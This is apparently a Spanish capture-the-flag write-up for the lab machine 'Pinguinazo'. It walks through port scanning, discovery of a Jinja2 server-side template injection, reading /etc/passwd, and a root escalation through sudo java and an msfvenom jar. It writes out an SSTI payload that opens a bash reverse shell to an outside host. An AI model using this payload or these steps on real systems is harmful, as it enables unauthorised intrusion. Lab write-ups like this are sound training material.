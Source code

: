# Pinguinazo

![Image](https://github.com/user-attachments/assets/6a3b1f69-6c33-4c25-ab22-0fa5a12956f4)

## Reconocimiento

Tras comprobar que tenemos conectividad con la máquina procedemos a escanear los puertos que están abiertos con **Nmap**:

![Image](https://github.com/user-attachments/assets/586658bb-a7ee-4de7-ace8-8111a88e6ed3)

En el primer escaneo podemos observar, por un lado que se trata de una máquina Linux (debido al TTL de 64) y por otro que tiene un servicio activo por el puerto 5000 por lo que haremos un escaneo más exhaustivo para identificar este

![Image](https://github.com/user-attachments/assets/8ee4df98-9f92-4305-ab62-d31a292cd64c)

Como podemos ver en este segundo escaneo el servicio que corre por este puerto es un servidor http.

Con la herramienta **WhatWeb** podemos identificar las tecnologías que está utilizando este servicio web y vemos tanto un email que puede ser interesante como la version de Python:

![Image](https://github.com/user-attachments/assets/1bd1680b-f04f-46d9-b02c-27964acaa304)

Accedemos a la pagina web y vemos que tiene una especie de panel de registro:

![Image](https://github.com/user-attachments/assets/2d1a469c-7d2f-4b2e-99b9-4625fc40e3f4)

Antes de interactuar con el panel hacemos fuzzing para identificar directorios expuestos que puedan ser útiles, para lo cual utilizamos **gobuster** y encontramos un directorio */console*:

```gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2:5000/ -t 20```

![Image](https://github.com/user-attachments/assets/f7273646-d83a-460e-aa73-89542f2b4333)

Al parecer nos pide un PIN para poder interactuar con la consola por lo que volvemos al panel anterior para ver como interactúa. Teniendo en cuenta que vimos que utilizaba Python y que responde mostrando el campo PinguNombre podemos tratar de inyectar comandos

![Image](https://github.com/user-attachments/assets/9b32a9c0-daf7-4a87-a33a-278b370d5027)

Una vez hemos detectado que ejecuta comandos, aunque no hemos conseguido identificar con **WhatWeb** cuál es la plantilla que está empleando el servicio web podemos utilizar la información del repositorio de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) correspondiente al **SSTI(Server Side Template Injection)** para explotar esta vulnerabilidad.

## Explotación

Utilizamos los siguientes payloads para identificar la plantilla:

![Image](https://github.com/user-attachments/assets/890b06e6-9db5-479b-83d0-26fcd3e43eaa)

Tras ver que el primer comando es el que da error identificamos que se trata de un Jinja2. Pasamos a ver si tenemos capacidad de lectura de archivos con los siguientes comandos:

![Image](https://github.com/user-attachments/assets/7000d9b6-e155-4392-b4cb-ec7b1e0728e4)

Al parecer si podemos leer el archivo */etc/passwd* del cual sacamos que existe un usuario *pinguinazo*

![Image](https://github.com/user-attachments/assets/fd270022-26df-4d96-bcf1-5a276db0e4e9)

Si estuviese el servicio SSH activo podríamos intentar crackear la contraseña con **Hydra** por ejemplo, pero como no es el caso vamos a probar si tenemos capacidad de ejecución de comandos

![Image](https://github.com/user-attachments/assets/fdbf4348-02eb-4bb5-9876-869e28e7a95d)

En la respuesta vemos el resultado del comando "id" por lo que confirmamos la ejecución de comandos

![Image](https://github.com/user-attachments/assets/64cc7d21-eaf9-4e5b-8791-dd4d7dd6235a)

Procedemos entonces a entablarnos una reverse shell tras ponernos en escucha con **Netcat** por el puerto 443 con el siguiente comando:

```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.2.6/443 0>&1"').read() }}```

## Escalada de privilegios

Una vez estamos dentro de la máquina víctima debemos hacer un tratamiento de la tty para poder trabajar de una manera más eficiente y clara. Para esto tendremos que utilizar los siguientes comandos:

- `script /dev/null -c bash`
- ctrl + z (para poner el proceso en segundo plano)
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows x columns y` (donde x e y son las filas y columnas de tu terminal habitual, para comprobarlo utiliza en una consola aparte stty size)

Tras esto consultamos si tenemos algún permiso para ejecutar comandos como *root* y efectivamente podemos ejecutar */usr/bin/java*

![Image](https://github.com/user-attachments/assets/77e6c78d-07e7-4043-85fc-7995a9d159c8)

Una forma de aprovechar esto es crear con **msfvenom** un archivo .jar que establezca otra reverse shell pero esta vez como root

![Image](https://github.com/user-attachments/assets/7f321606-47b4-4330-8a7f-839e24c52411)

Para enviarnos este archivo a la máquina víctima utilizamos **curl** y una vez la tenemos solo falta ejecutar dicho archivo tras ponernos en escucha de nuevo con **Netcat** pero en esta ocasion por el puerto 4444:

![Image](https://github.com/user-attachments/assets/101a235a-27c4-4271-bc9c-185415da698e)

Una vez hecho esto en la nueva consola seríamos el usuario *root* y tendríamos acceso total a la máquina.

![Image](https://github.com/user-attachments/assets/3ebbc092-5291-4346-8a28-8d375c1d07c8)

